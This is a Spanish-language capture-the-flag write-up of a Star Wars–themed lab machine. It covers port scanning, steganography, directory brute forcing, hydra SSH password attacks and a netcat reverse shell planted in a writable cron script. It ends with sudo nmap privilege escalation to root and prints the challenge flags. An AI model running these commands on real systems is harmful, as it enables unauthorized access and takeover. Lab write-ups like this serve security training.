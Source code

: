 # Reto 4 - Star Wars
Herramientas utilizadas:
- nmap
- netcat
- cyberchef
- gobuster
- cewl
- hydra
- wget

Este reto consiste en aplicar técnicas de hacking para encontrar tres banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta ```nmap``` para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.
```
nmap <ip_mv> -sCV -Pn -p-
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-1.png" /> </p>

Encontramos que la máquina víctima tiene corriendo el servicio ssh por el puerto 22 y un servicio web por el puerto 80. En este punto procedemos a revisar la web que exporta el host.

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-2.png" /> </p>

En la web encontramos dos imágenes y un texto que pudiera ser una pista **"Password you shall find".** Sin embargo, si observamos el código fuente de la web, encontramos un mensaje interesante.

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-3.png" /> </p>

Tomamos el mensaje codificado en base64 y se lo proporcionamos como entrada a la herramienta ```CyberChef```. En el recipe de la herramienta utilizamos el decodificador base64 y convertimos de binario a decimal la salida.
```
https://gchq.github.io/CyberChef/
```
```
MDExMTAxMDAgMDExMDEwMDAgMDExMDEwMDEgMDExMTAwMTEgMDExMDEwMDEgMDExMTAwMTEgMDExMDExMTAgMDExMDExMTEgMDExMTAxMDAgMDExMDEwMDAgMDExMDAxMDEgMDExMTAwMDAgMDExMDAwMDEgMDExMTAwMTEgMDExMTAwMTEgMDExMTAxMTEgMDExMDExMTEgMDExMTAwMTAgMDExMDAxMDA=

```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-4.png" /> </p>

El resultado no es satisfactorio, no se puede encontrar alguna flag solo un simple mensaje **"thisisnothepassword"**. Sim embargo, nos queda por revisar las imágenes que se muestran el la web. 

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-5.png" /> </p>

Luego de ubicar las imágenes, procedemos a descargarlas con la herramienta ```wget```.
```
wget http://ip_mv/images/yoda.jpg
wget http://ip_mv/images/yoda.png
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-6.png" /> </p>

Teniendo las imágenes descargadas, utilizamos la herramienta ```steganography``` para determinar y extraer texto oculto en las imágenes mediante esteganografía.
```
https://stylesuxx.github.io/steganography/ 
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-7.png" /> </p>

Nótese que como resultado obtenemos un posible password **"babyYoda123"** que podríamos usar con algún usuario existente. Con la herramienta ```gobuster``` procedemos a realizar una búsqueda de archivos y directorios de interés en la web.
```
gobuster dir -u http://ip_mv -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .js,.txt,.php
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-8.png" /> </p>

Observamos archivos de interés como un **robots.txt** y un **users.js** que nos podría proporcionar algún usuario válido. Al acceder al contenido del archivo **users.js** encontramos dos posibles usuarios **"skywalker y han"**.

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-9.png" /> </p>

En este punto contamos con un posible password y dos posibles usuarios válidos. Utilizamos la herramienta ```hydra``` proporcionando un archivo con los dos posibles usuarios y el password encontrado.
```
hydra -L users.txt -p babyYoda123 ssh://ip_mv
```

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-10.png" /> </p>

Encontramos que el password proporcionado pertence al usuario **han**. Dado este hallazgo, podemos acceder al host a través del servicio ssh proporcionando este usuario y el password
```
ssh han@ip_mv
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-11.png" /> </p>

Luego de acceder como el usuario **han** a la máquina víctima, encontramos un directorio interesante (**".secrets"**). Dentro de este se halla un archivo **note.txt** que contiene la primera flag del reto.
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-12.png" /> </p> 
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-13.png" /> </p>

```
flag{Anakin_is_a_cewl_kid}
```

Posteriormente listamos el contenido del archivo **/etc/passwd** para determinar posibles usuarios válidos en el host. Mediante este paso obtenemos otro posible usuario, **Darth**.
```
tail /etc/passwd
```

Anteriormente se encontró un archivo **robots.txt**. Pasamos a revisarlo y observamos que contiene una pista, nos sugiere que veamos el directorio **r2d2**

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-14.png" /> </p>

Situados en el directorio **r2d2** observamos mucha información. Utilizamos la herramienta ```cewl``` para generar una lista de palabras a partir del contenido en el directorio de la web. Esta lista de palabras nos servirá como diccionario de posibles password.

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-15.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-16.png" /> </p>

```
cewl http://ip_mv/r2d2 > r2d2.txt
```

El siguiente paso sería agregar el usuario **Darth** a nuestro archivo de posibles usuarios y utilizar la herramienta ```hydra``` para dado una lista de posibles password determinar a que usuario pertenece para poder acceder al host a través del servicio ssh.
```
hydra -L users.txt -P r2d2.txt ssh://ip_mv
```

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-17.png" /> </p>

Como resultado obtenemos el password **tatooine** válido para el usuario **skywalker**. Procedemos a acceder a través del servicio ssh a la máquina víctima.
```
ssh skywalker@ip_mv
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-18.png" /> </p>

Dentro de la máquina como el usuario **skywalker**, accedemos al directorio **.secrets** que se encuentra en el path donde estamos ubicados. En el directorio encontramos la segunda flag del reto dentro del archivo **note.txt**

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-19.png" /> </p>

```
flag{Darth_must_take_up_the_job_of_being_a_good_father}
```

Conociendo que existe el usuario **Darth** en la máquina, accedemos a su directorio personal. Dentro del directorio **.secrets** encontramos un script en python que se ejecuta dado un tiempo. 

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-20.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-21.png" /> </p>

Este script tiene permisos de escritura por parte de los no propietarios, por lo que se puede reescribir. Escribimos dentro del script un comando que nos permitirá entablar una reverse shell con la máquina víctima.
```
nano evil.py
import os
os.system("nc -e /bin/bash ip_myPC 1234")
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-22.png" /> </p>

En otra terminal nos ponemos en escucha por un puerto con la herramienta ```netcat``` para recibir la reverse shell.
```
nc -lvp 1234
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-23.png" /> </p>

Dentro de la máquina como el usuario **Darth**, listamos los comandos que podemos usar como root sin proporcionar un password. Encontramos que podemos ejecutar el comando nmap como root. 
```
sudo -l
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-24.png" /> </p>

Buscamos en la pagina ```https://gtfobins.github.io/``` podemos escalar privilegios a través de la herramienta nmap con permisos de root y efectivamente, existe una vía ejecutando comandos.
```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-25.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-26.png" /> </p>

Luego de ejecutar los comandos nos convertimos en root. Accedemos al directorio de root y listamos la última flag del reto.
```
cat /root/flag.txt
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-27.png" /> </p>

```
flag {I_hope_you_liked_it_Padawam_:)}
```
